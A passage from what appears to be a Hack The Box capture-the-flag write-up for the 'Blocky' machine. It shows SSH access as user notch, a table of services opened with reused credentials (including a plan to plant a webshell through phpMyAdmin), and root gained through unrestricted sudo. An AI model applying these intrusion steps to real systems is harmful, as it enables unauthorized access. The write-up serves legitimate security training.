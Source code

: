     7 packages can be updated.
    7 updates are security updates.


    Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
    notch@Blocky:~$ 



And I can grab `user.txt`:



    notch@Blocky:~$ cat user.txt 
    59fee097************************



For other services, I tried:

  Service      Result             Access                                        Next Step
  ------------ ------------------ --------------------------------------------- ------------------------------------------------------------------------------------------
  FTP          Success as notch   notch home directory (including `user.txt`)   Can upload SSH key and get shell as notch.
  /wp-admin    Fail as both       None                                          N/A
  phpMyAdmin   Success as root    Databases, including Wordpress                Can change the keys, get WP admin access, and make webshell, which gives www-data access

## Priv: notch --\> root

This may be the easiest root I've seen on HTB. `sudo -l` asks for a
password, but I have it:



    notch@Blocky:~$ sudo -l
    [sudo] password for notch: 
    Matching Defaults entries for notch on Blocky:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User notch may run the following commands on Blocky:
        (ALL : ALL) ALL



I can run anything with `sudo` as notch. So I'll chose `bash` and I'm
root:



    notch@Blocky:~$ sudo su - 
    root@Blocky:~#



I'll grab `root.txt`:



    root@Blocky:~# cat root.txt 
    0a9694a5************************



I suspect there are kernel exploits I could use here as well, but I'll
leave that as an exercise for the reader.





